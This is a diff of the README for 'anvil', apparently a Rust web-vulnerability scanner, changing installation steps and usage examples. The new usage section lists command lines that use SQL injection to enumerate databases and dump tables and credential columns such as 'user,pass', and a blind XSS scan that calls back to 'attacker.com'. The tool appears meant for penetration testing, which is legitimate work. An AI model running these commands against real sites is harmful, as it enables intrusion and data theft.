

Before and after one commit to siddhantbhattarai/anvil, a Markdown page: README.md, the part around one of its changes. Shown at 83% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -38,59 +72,85 @@
+### Additional Features
+- **Crawling**: Automatic parameter discovery
+- **Fingerprinting**: Server, OS, and framework detection
+- **Authentication**: Cookie and header support
+- **Rate Limiting**: Configurable request throttling
+- **Output Formats**: Text, JSON, CSV
 
 ## 📦 Installation
 
-### Prerequisites
-
-- Rust 1.70 or higher
-- Cargo (comes with Rust)
-
-### Build from Source
+### Linux / macOS
 
 ```bash
 # Clone the repository
-git clone git@github.com:siddhantbhattarai/anvil.git
+git clone https://github.com/siddhantbhattarai/anvil.git
 cd anvil
 
-# Build in release mode
-cargo build --release
+# Run the setup script
+chmod +x setup.sh
+./setup.sh
 
-# Install to system
+# Or install manually
 cargo install --path .
 ```
 
-The binary will be available at `target/release/anvil` or installed to `~/.cargo/bin/anvil`.
+### Windows
 
-## 🎯 Quick Start
+#### Option 1: Using PowerShell Script
+```powershell
+# Run as Administrator
+Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
 
-### Basic SQL Injection Detection
-
-```bash
-# Test a specific parameter
-anvil -t "http://target.com/page?id=1" -p id --sqli
-
-# Authenticated scanning
-anvil -t "http://target.com/page?id=1" -p id --sqli \
-  --cookie "PHPSESSID=abc123; security=low"
+# Clone and install
+git clone https://github.com/siddhantbhattarai/anvil.git
+cd anvil
+.\setup.ps1
 ```
 
-### Generate JSON Report
-
-```bash
-# Output to stdout
-anvil -t "http://target.com/page?id=1" -p id --sqli --format json
-
-# Save to file
-anvil -t "http://target.com/page?id=1" -p id --sqli --format json -o report.json
+#### Option 2: Manual Installation
+1. Install [Rust](https://rustup.rs/) - Download and run `rustup-init.exe`
+2. Open Command Prompt or PowerShell:
+```cmd
+git clone https://github.com/siddhantbhattarai/anvil.git
+cd anvil
+cargo install --path .
 ```
 
-### XSS Detection
+3. Add Cargo bin to PATH if not already:
+   - Open System Properties → Environment Variables
+   - Add `%USERPROFILE%\.cargo\bin` to PATH
 
+## 🔧 Usage
+
+### Basic SQL Injection Scan
 ```bash
-anvil -t "http://target.com/search?q=test" -p q --xss
+# Detect SQLi vulnerability
+anvil -t "http://target.com/page.php?id=1" -p id --sqli
+
+# Enumerate databases
+anvil -t "http://target.com/page.php?id=1" -p id --sqli --dbs
+
+# Enumerate tables in a database
+anvil -t "http://target.com/page.php?id=1" -p id --sqli -D database_name --tables
+
+# Enumerate columns in a table
+anvil -t "http://target.com/page.php?id=1" -p id --sqli -D database_name -T table_name --columns
+
+# Dump table data
+anvil -t "http://target.com/page.php?id=1" -p id --sqli -D database_name -T table_name --dump
+
+# Dump specific columns
+anvil -t "http://target.com/page.php?id=1" -p id --sqli -D database_name -T table_name -C "user,pass" --dump
 ```
 
-### SSRF Detection
+### XSS Scanning
+```bash
+# Basic XSS scan
+anvil -t "http://target.com/search?q=test" -p q --xss
 
-```bash
-anvil -t "http://target.com/fetch?url=example.com" -p url --ssrf
+# All XSS types
+anvil -t "http://target.com/search?q=test" -p q --xss-all
+
+# Blind XSS with callback
+anvil -t "http://target.com/contact" --xss-blind --callback "attacker.com"
 ```
 
````
Also changed, not shown: other parts of README.md (+119 -259 lines).
